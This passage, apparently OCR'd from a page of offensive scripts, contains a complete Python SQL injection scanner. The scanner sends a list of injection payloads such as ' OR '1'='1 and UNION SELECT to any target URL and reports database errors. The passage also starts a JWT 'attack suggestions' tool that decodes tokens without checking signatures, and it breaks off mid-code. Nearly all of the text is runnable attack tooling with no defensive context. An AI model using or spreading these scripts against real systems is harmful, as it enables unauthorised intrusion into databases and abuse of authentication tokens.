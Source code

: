 ```bash
```

### Script 2: SQL Injection Scanner
```python
#!/usr/bin/env python3
# sqli_scanner.py

import requests
import sys

def test_sqli(url):
    payloads = [
        "'", "1'--", "1' OR '1'='1", "1' OR '1'='1'--",
        "1' UNION SELECT NULL--", "' OR 1=1--",
        "admin' OR '1'='1", "' OR '1'='1' --"
    ]
    
    print(f"[*] Testing {url}")
    
    for payload in payloads:
        try:
            r = requests.get(f"{url}{payload}", timeout=5)
            if any(err in r.text.lower() for err in ['sql', 'mysql', 'sqlite', 'syntax', 'error']):
                print(f"[!] Potential SQLi: {payload}")
                print(f"    Response snippet: {r.text[:200]}")
        except Exception as e:
            print(f"[-] Error with payload {payload}: {e}")

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: ./sqli_scanner.py http://target/page?id=")
        sys.exit(1)
    test_sqli(sys.argv[1])
```

### Script 3: JWT Decoder & Analyzer
```python
#!/usr/bin/env python3
# jwt_tool.py

import jwt
import json
import sys
import base64

def analyze_jwt(token):
    print("[*] JWT Analysis")
    print("="*50)
    
    # Decode without verification
    try:
        header = jwt.get_unverified_header(token)
        payload = jwt.decode(token, options={"verify_signature": False})
        
        print("\n[+] Header:")
        print(json.dumps(header, indent=2))
        
        print("\n[+] Payload:")
        print(json.dumps(payload, indent=2))
        
        print("\n[*] Attack Suggestions:")
        
        # Check algorithm
```
